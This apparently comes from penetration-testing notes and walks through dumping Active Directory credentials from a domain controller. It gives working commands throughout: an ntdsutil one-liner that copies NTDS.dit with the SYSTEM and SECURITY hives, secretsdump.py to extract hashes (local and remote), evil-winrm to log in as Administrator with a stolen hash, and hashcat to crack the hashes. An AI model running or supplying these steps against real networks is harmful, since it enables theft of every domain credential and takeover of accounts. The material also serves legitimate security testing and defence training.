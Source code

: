**New Technologies Directory Services (NTDS)**

Is a database containing all Active Directory data, including objects, attributes, credentials, etc.<br>
NTDS is located in ```C:\Windows\NTDS``` by default, and it is encrypted to prevent data extraction from a target machine. Accessing the ```NTDS.dit``` file from the machine running is disallowed since the file is used by Active Directory and is locked.
<br>However, there are various ways to gain access to it. 
we will use ```ntdsutil``` tool to make a copy to dump the file's content. It is important to note that decrypting the NTDS file requires a system Boot Key to attempt to decrypt LSA Isolated credentials, which is stored in the ```SECURITY``` file system. Therefore, we must also dump the security file containing all required files to decrypt. <br>

**Local Dumping (No Credentials)**

This is usually done if you have no credentials available but have administrator access to the domain controller.<br>
To successfully dump the content of the NTDS file we need the following files:

    C:\Windows\NTDS\ntds.dit
    C:\Windows\System32\config\SYSTEM
    C:\Windows\System32\config\SECURITY

The following is a one-liner PowerShell command to dump the NTDS file using the ```Ntdsutil``` tool in the ```C:\temp``` directory.
```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
Now, if we check the c:\temp directory, we see two folders: ```Active Directory``` and ```registry```.<br>
The two folders contain the required 3 files mentioned above.<br>
Then we will use ```secretsdump.py``` tool to extract the hashes.
```
secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```
**Another way to do that** 

```
secretsdump.py -just-dc <username>:<password>@[Target_IP]
```
now we could use ```evil-winrm``` to open session using the NTML hashes we got:
```
evil-winrm -i <target ip> -u Administrator -H <hash of administrator>
```
Finally, we could use ```hashcat``` to crack the hashes.
```
hashcat -m 1000 -a 0 hashes.txt /path/to/rockyou.txt --force
```

















        

